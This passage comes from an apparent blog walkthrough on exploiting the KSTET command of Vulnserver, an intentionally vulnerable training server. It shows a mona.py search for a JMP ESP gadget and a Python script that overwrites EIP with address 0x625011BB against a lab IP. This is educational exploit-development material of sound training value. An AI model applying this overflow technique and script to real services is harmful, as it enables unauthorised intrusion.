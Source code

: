 And run it:

<div class="imgblock">

![Cyclic pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331148/blog/vulnserver-kstet/offset2_bhloqq.gif)

</div>

Wonderful\! We know exactly how to overwrite `EIP` to get control over
the execution flow.

## Exploiting

As with the [TRUN](../vulnserver-trun/) and [GTER](../vulnserver-gter/)
commands, we have a direct `EIP` overwrite here, and the `ESP` register
points directly to our controlled buffer. That means that we can look
for a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

``` console
!mona jmp -r esp -cp nonull -o
```

This would tell `mona` to look for instructions that can be used to jump
to `ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp
nonull`) and omitting OS DLLs (`-o`). The result is the following:

<div class="imgblock">

![JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331150/blog/vulnserver-kstet/mona1_jfvocq.webp)

</div>

We can choose any of those 9 pointers. I’ll choose the one at
`625011BB`.

Now, we can update the exploit with that address:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```
